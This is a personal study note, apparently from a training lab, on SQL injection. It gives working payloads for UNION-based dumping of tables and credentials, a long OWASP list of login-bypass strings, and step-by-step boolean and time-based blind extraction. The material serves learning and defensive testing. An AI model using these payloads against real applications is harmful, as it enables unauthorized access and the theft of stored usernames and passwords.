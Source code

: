 # SQLi 
reeeee

Easy way to enumerate columns with order
`id=1 order by 1`
Then we can increment the by NUMBER until we receieve an error indicating the number of correct columns


### Unions
A union must select the **same** number of fields as the first select statement

`SELECT name,address,city,postcode from customers UNION SELECT company,address,city,postcode from suppliers;`


DONT BE AFRAID TO USE NULL AS A PLACEHOLDER
#### Union SQLi

Steps to find union sql statement with no protections
1. Complete the statement with an UNION SELECT 1
	1. Append more select objects until it completes, might be easier to use NULL or a function such as database()
	2. if the statement has the correct number of fields, it will not error and display the results to the page
2. Grab the list of tables
	1. ``UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'``
3. Grab the columns of the table you desire, most often a user table
	1. ``UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'staff_users'``
4. Grab info from the tables using the revealed columns
	1. `UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users`

Things for certain
- This only works if the fields in the talble the select statement is grabbing from is known
- group_concat() is based asf


### Authentication bypass

The trick is to make the query always return **true** regardless of what is actually inputted

Example sql query in a login form:

`select * from users where username='%username%' and password='%password%' LIMIT 1;`

injection

`' OR 1=1;--`

will turn the query into

`select * from users where username='' and password='' OR 1=1;--' LIMIT 1;`

list from OWASP
```
or 1=1  
or 1=1--  
or 1=1#  
or 1=1/*  
admin' --  
admin' #  
admin'/*  
admin' or '1'='1  
admin' or '1'='1'--  
admin' or '1'='1'#  
admin' or '1'='1'/*  
admin'or 1=1 or ''='  
admin' or 1=1  
admin' or 1=1--  
admin' or 1=1#  
admin' or 1=1/*  
admin') or ('1'='1  
admin') or ('1'='1'--  
admin') or ('1'='1'#  
admin') or ('1'='1'/*  
admin') or '1'='1  
admin') or '1'='1'--  
admin') or '1'='1'#  
admin') or '1'='1'/*  
1234 ' AND 1=0 UNION ALL SELECT 'admin', '81dc9bdb52d04dc20036dbd8313ed055  
admin" --  
admin" #
admin'||''==='
admin"/*  
admin" or "1"="1  
admin" or "1"="1"--  
admin" or "1"="1"#  
admin" or "1"="1"/*  
admin"or 1=1 or ""="  
admin" or 1=1  
admin" or 1=1--  
admin" or 1=1#  
admin" or 1=1/*  
admin") or ("1"="1  
admin") or ("1"="1"--  
admin") or ("1"="1"#  
admin") or ("1"="1"/*  
admin") or "1"="1  
admin") or "1"="1"--  
admin") or "1"="1"#  
admin") or "1"="1"/*  
1234 " AND 1=0 UNION ALL SELECT "admin", "81dc9bdb52d04dc20036dbd8313ed055
```


### Blind SQLi

#### Boolean based

Basically the idea is that the application will respond as normal given the SQLi is right, which is the idea of *Boolean*

Query to guess against:
`select * from users where username = '%username%' LIMIT 1;`

Steps to do boolean sqli
1. Find the number of columns with a union select
	1. `admin123' UNION SELECT 1;--`
		1. this returns false because they are more than one column
	2. Add values until its true
		1. `admin123' UNION SELECT 1,2,3;--`
		2. This returns true because they are three columns
2. Guess the database name(this probably could be automated nicely)
	1. `admin123' UNION SELECT 1,2,3 where database() like '%';--`
		1. This returns true, but to guess the database name add letters before the '%' which will return true if the letter exists in the right place
		2. for example the database in the example is "sqli_three" so the statement that would return true is
			1. `admin123' UNION SELECT 1,2,3 where database() like 'sqli_three%';--`
3. Guess tables using the same method practically
	1. `admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name like 'LETTERS%';--` 
	2. You could guess the users table for example
4. Guess columns in found table in found database
	1. `admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like 'a%';`
	2. Once you've discovered one column you must append it to the statement in a NOT statement so you don't loop over the same column you've just discovered
	3. `admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like 'a%' and COLUMN_NAME !='id';`
	4. Once you've discovered the important columns like id, username, and password you can construct your payload
5. Construct payload
	1. `admin123' UNION SELECT 1,2,3 from users where username like 'a%`
		1. Discover user 'admin'
	2. Guess password
		1. `admin123' UNION SELECT 1,2,3 from users where username='admin' and password like 'a%`
6. Success!

#### Time based
Idea is that you can add SLEEP()s that will determine whether or not an injection exists because it will make the application sleep and return later at the specified time

1. Find the number of columns in the table with some sleeps
	1. `admin123' UNION SELECT SLEEP(5);--`
	2. Which would sleep if there was one column but in the example it doesnt because they are two columns
2. `admin123' UNION SELECT SLEEP(5),2;--`
	1. This sleeps
3. Repeat the same process in boolean to guess database, table, and column, then user and password.  Except instead of an API response guiding you, use the sleep times

